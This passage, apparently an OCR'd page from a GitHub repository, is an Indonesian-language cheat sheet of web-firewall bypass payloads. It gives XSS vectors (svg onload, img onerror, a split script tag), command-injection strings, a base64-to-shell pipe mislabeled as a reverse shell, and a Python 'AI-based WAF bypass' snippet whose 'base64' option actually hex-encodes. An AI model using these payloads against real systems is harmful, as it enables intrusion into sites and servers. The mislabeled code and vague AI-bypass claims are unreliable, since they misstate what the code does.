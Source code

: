 **Payload Bypass WAF (SVG & Event Handlers):**
```html
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
```

**Payload XSS Polymorphic (JavaScript Encoding):**
```html
<scr<script>ipt>alert(1)</scr<script>ipt>
```

---

## 🔥 3. Remote Code Execution (RCE)

**Payload Dasar:**
```bash
; ls -la
| id
```

**Payload Bypass WAF (Base64 & Reverse Shell):**
```bash
echo 'bHMgLWxh' | base64 -d | sh
```

---

## 🤖 AI-Based WAF Bypass

**Teknik AI Bypass WAF:**  
- **Adversarial Attack:** Menggunakan model AI untuk memodifikasi payload agar tidak terdeteksi.  
- **Dynamic Payload Mutation:** Payload berubah sesuai respon dari server.  
- **ML-Driven Obfuscation:** Payload dienkripsi dan hanya dieksekusi saat diterima oleh target.  

**Contoh Implementasi Python AI Bypass WAF:**
```python
import random

payloads = ["' OR 1=1 --", "<script>alert(1)</script>", "; ls -la"]
obfuscation_methods = ["url_encode", "base64", "hex"]

def obfuscate(payload, method):
    if method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    elif method == "base64":
        return payload.encode("utf-8").hex()
    return payload

selected_payload = random.choice(payloads)
selected_method = random.choice(obfuscation_methods)

bypass_payload = obfuscate(selected_payload, selected_method)
print(f"Generated Bypass Payload: {bypass_payload}")
```

---